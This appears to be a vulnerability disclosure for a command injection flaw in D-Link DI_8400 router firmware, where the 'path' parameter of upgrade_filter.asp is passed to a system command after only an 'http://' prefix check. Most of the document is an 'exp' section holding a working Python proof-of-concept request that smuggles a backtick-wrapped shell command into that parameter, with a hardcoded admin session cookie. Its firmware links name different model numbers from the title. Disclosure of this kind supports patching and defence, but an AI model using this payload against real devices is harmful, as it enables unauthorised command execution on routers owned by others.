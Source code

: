 # D-link:DI_8400-16.07.26A1 Command Injection

# Firmware information
Firmware download address:[ProductInfo.aspx?m=DI-8300](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100)

# Description:
A vulnerability was discovered in DI_8400-16.07.26A1, which has been classified as critical. This issue affects the upgrade_filter_asp function in the upgrade_filter.asp file. Manipulation of the path parameter can lead to command injection.

# Analyse:

![](vx_images/432466897365884.png)

The upgrade_filter_asp function has a system command execution vulnerability. When concatenating the command, it does not perform adequate filtering; it only checks for the presence of the path parameter and that the first seven characters of the path value are "http://".


# exp

```
import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/003.txt`"
burp0_cookies = {"wys_userid": "admin,wys_passwd=8A754169257736FE61876D5E681CF5D5"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "ext/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```









